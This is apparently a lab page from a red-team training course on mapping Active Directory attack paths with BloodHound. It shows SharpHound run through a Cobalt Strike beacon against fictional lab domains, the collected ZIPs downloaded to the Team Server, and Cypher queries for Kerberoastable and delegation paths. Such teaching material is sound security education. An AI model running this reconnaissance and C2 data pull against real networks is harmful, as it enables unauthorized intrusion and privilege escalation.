 [BloodHound](https://github.com/BloodHoundAD/BloodHound) is an application that uses graph theory to display the relationships between different Active Directory components, specifically for the use case of finding attack paths. BloodHound requires the use of two additional components: a [neo4j](https://neo4j.com/) database and the [SharpHound](https://github.com/BloodHoundAD/SharpHound3) data collector.

To configure neo4j and BloodHound, go to your **attacker-windows** VM and open a **Command Prompt**. Change directory to `C:\Tools\neo4j\bin` and run `neo4j.bat console`.
```shell
C:\Users\Administrator>cd C:\Tools\neo4j\bin

C:\Tools\neo4j\bin>neo4j.bat console
2021-05-11 10:03:21.143+0000 INFO  Starting...
2021-05-11 10:03:28.065+0000 INFO  ======== Neo4j 4.2.3 ========
2021-05-11 10:03:32.143+0000 INFO  Performing postInitialization step for component 'security-users' with version 2 and status CURRENT
2021-05-11 10:03:32.143+0000 INFO  Updating the initial password in component 'security-users'
2021-05-11 10:03:33.128+0000 INFO  Bolt enabled on localhost:7687.
2021-05-11 10:03:36.096+0000 INFO  Remote interface available at http://localhost:7474/
2021-05-11 10:03:36.096+0000 INFO  Started.
```

Open a web browser and navigate to **http://localhost:7474/**. Enter **neo4j** for both the username and password, and click **Connect**. You'll be prompted to set a new password - pick something you'll remember and click **Change Password**. You may now close the browser.

Go to `C:\Tools\BloodHound`, launch `BloodHound.exe` and login with your new password.

![alt text](file:///android_asset/20220831122409.png)

The database will be empty, so it's time to run the data collection with SharpHound.

SharpHound has a number of different collection methods (all documented on the repository):

-   **Default** - Performs group membership collection, domain trust collection, local group collection, session collection, ACL collection, object property collection, and SPN target collection
-   **Group** - Performs group membership collection
-   **LocalAdmin** - Performs local admin collection
-   **RDP** - Performs Remote Desktop Users collection
-   **DCOM** - Performs Distributed COM Users collection
-   **PSRemote** - Performs Remote Management Users collection
-   **GPOLocalGroup** - Performs local admin collection using Group Policy Objects
-   **Session** - Performs session collection
-   **ComputerOnly** - Performs local admin, RDP, DCOM and session collection
-   **LoggedOn** - Performs privileged session collection (requires admin rights on target systems)
-   **Trusts** - Performs domain trust enumeration
-   **ACL** - Performs collection of ACLs
-   **Container** - Performs collection of Containers
-   **DcOnly** - Performs collection using LDAP only. Includes Group, Trusts, ACL, ObjectProps, Container, and GPOLocalGroup.
-   **ObjectProps** - Performs Object Properties collection for properties such as LastLogon or PwdLastSet
-   **All** - Performs all Collection Methods except GPOLocalGroup.

**OPSEC Alert**
>Running collection methods such as **LocalAdmin**, **RDP**, **DCOM**, **PSRemote** and **LoggedOn** will allow SharpHound to enumerate every single computer in the domain. Collecting this information is useful to BloodHound and without it you may see fewer paths, at the obvious expensive of being loud on the wire.

SharpHound will write a ZIP file in the current working directory of the Beacon, so ensure you move somewhere writeable first.
```shell
beacon> execute-assembly C:\Tools\SharpHound3\SharpHound3\bin\Debug\SharpHound.exe -c DcOnly

------------------------------------------------
Initializing SharpHound at 10:04 AM on 5/13/2021
------------------------------------------------

Resolved Collection Methods: Group, Trusts, ACL, ObjectProps, Container, GPOLocalGroup, DCOnly

[+] Creating Schema map for domain DEV.CYBERBOTIC.IO using path CN=Schema,CN=Configuration,DC=cyberbotic,DC=io
[+] Cache File not Found: 0 Objects in cache
[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 33 MB RAM
[+] Creating Schema map for domain CYBERBOTIC.IO using path CN=Schema,CN=Configuration,DC=cyberbotic,DC=io
Status: 81 objects finished (+81 81)/s -- Using 42 MB RAM
Enumeration finished in 00:00:01.2056637
Compressing data to .\20210513100410_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 10:04 AM on 5/13/2021! Happy Graphing!
```

By default, SharpHound will target the current domain. To enumerate a foreign domain, use the `-d` option.
```shell
beacon> execute-assembly C:\Tools\SharpHound3\SharpHound3\bin\Debug\SharpHound.exe -c DcOnly -d cyberbotic.io

------------------------------------------------
Initializing SharpHound at 10:05 AM on 5/13/2021
------------------------------------------------

Resolved Collection Methods: Group, Trusts, ACL, ObjectProps, Container, GPOLocalGroup, DCOnly

[+] Creating Schema map for domain CYBERBOTIC.IO using path CN=Schema,CN=Configuration,DC=cyberbotic,DC=io
[+] Cache File Found! Loaded 140 Objects in cache
[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 36 MB RAM
[+] Creating Schema map for domain ZEROPOINTSECURITY.LOCAL using path CN=Schema,CN=Configuration,DC=cyberbotic,DC=io

Status: 110 objects finished (+110 3.666667)/s -- Using 40 MB RAM
Status: 111 objects finished (+1 1.261364)/s -- Using 44 MB RAM
Enumeration finished in 00:01:28.6689739
Compressing data to .\20210513100546_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 10:07 AM on 5/13/2021! Happy Graphing!
```

To download these files, use the `download` command.
```shell
beacon> download 20210513100410_BloodHound.zip
[*] Tasked beacon to download 20210513100410_BloodHound.zip
[+] host called home, sent: 37 bytes
[*] started download of C:\Temp\20210513100410_BloodHound.zip (11757 bytes)
[*] download of 20210513100410_BloodHound.zip is complete

beacon> download 20210513100546_BloodHound.zip
[*] Tasked beacon to download 20210513100546_BloodHound.zip
[+] host called home, sent: 37 bytes
[*] started download of C:\Temp\20210513100546_BloodHound.zip (14368 bytes)
[*] download of 20210513100546_BloodHound.zip is complete
```

This will download the files to the Team Server. To save them onto your desktop go to **View > Downloads**, select the files, click **Sync Files** and choose somewhere to save them. It works this way so that every operator connected to the Team Server has access to the same files.

In BloodHound, click the **Upload Data** button in the menu on the right and select your ZIP files. Once the files have been extracted, click the **More Info** button in the top-left - the DB Stats and On-Prem Objects should now be populated.

There are multiple ways to search for data in BloodHound.

Since we have a Beacon running as **bfarmer**, a good first step could be to find if he has any local admin rights on machines in the domain. Use the search box in the top-left to find bfarmer. Scroll down the **Node Info** tab until you find the **Local Admin Rights** section. Click on **Group Delegated Local Admin Rights** and BloodHound should show a simple graph displaying the relationship between bfarmer and **SRV-1**.

It shows us that bfarmer is **MemberOf** the **Developers** domain group, which is **AdminTo** SRV-1.
![alt text](file:///android_asset/20220831122518.png)

You can right-click on any edge and select **Help** to see more information about what that relationship means, how you might exploit it, any OPSEC considerations as well as additional references.
![alt text](file:///android_asset/20220831122526.png)

The path finder (the little road icon next to the search box) allows you to plot a path between two specific nodes. Specify a start and target node, and BloodHound will plot the shortest path (if it can find one). For example, searching for a path from **jking** to the **Oracle Admins** group should show that jking is a member of **1st Line Support** which has a **GenericAll** ACL to Oracle Admins.
![alt text](file:///android_asset/20220831122533.png)

To find any path to a target node, find it using the search box, right-click the node and select **Shortest Paths to Here**.
![alt text](file:///android_asset/20220831122541.png)

Nodes (users/groups/computers) can also be "Marked as Owned" or "Marked as High Value". This provides a means of plotting paths using those tags, such as "Find Paths to Here from Owned" or "Find Paths to High Value Targets".

In the **Analysis** tab, you will find lots of built-in queries that can help you find interesting attack paths in the domain. BloodHound also allows you to execute raw cypher queries (at the bottom of the window). This is useful for finding nodes that have particular properties or to help find specific attack paths.

This query will show all users that have a **Service Principal Name** (SPN) set:
```shell
MATCH (u:User {hasspn:true}) RETURN u
```

And this query will display computers that are **AllowedToDelegate** to other computers:
```shell
MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
```

One of the pre-built queries in BloodHound is called **Shortest Paths from Kerberoastable Users**, which will attempt to plot a path to Domain Admin from any user with an SPN. However, in the lab, this will find no result. The real strength of custom cyber query (in my view) is to expand out those search parameters:
```shell
MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p
```

This query will plot the shortest paths from any user with an SPN, to any computer - and will produce a path from **svc_mssql** to **SRV-1**.
![alt text](file:///android_asset/20220831122625.png)
(Don't worry if this specific paths make no sense - we'll be looking at them in more detail as we progress thrrough the course.)


>Get familiar with the BloodHound interface by finding different nodes and edges.

